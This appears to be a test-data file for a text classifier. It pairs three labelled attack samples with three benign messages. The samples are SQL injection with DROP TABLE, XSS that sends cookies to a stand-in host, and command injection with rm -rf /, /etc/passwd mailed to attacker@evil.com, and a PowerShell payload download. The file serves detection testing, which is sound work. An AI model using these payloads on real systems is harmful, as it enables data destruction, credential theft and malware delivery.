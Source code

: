 # 📝 Text Analysis Test Data

## 🔴 MALICIOUS TEXT EXAMPLES (3)

### 1. SQL Injection Attack
```
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1' --
UNION SELECT username, password FROM admin_users; DROP TABLE users;
```

### 2. Cross-Site Scripting (XSS) Attack
```
<script>alert('Your session has been hijacked!');</script>
<img src="x" onerror="document.location='http://malicious-site.com/steal?cookie='+document.cookie">
```

### 3. Command Injection Attack
```
user@example.com; rm -rf /; cat /etc/passwd | mail attacker@evil.com
powershell.exe -Command "Invoke-WebRequest -Uri 'http://malicious.com/payload.exe' -OutFile 'C:\temp\malware.exe'"
```

## 🟢 NORMAL TEXT EXAMPLES (3)

### 1. Normal User Input
```
Hello, I would like to update my profile information. My name is John Doe and I work as a software engineer. Please help me change my contact details.
```

### 2. Regular System Message
```
System backup completed successfully at 2024-01-15 10:30:00. All files have been archived to the backup server. Next scheduled backup: 2024-01-16 10:30:00.
```

### 3. Customer Support Inquiry
```
I'm having trouble accessing my account dashboard. When I click on the settings menu, nothing happens. Could you please help me resolve this issue? My account ID is 12345.
```
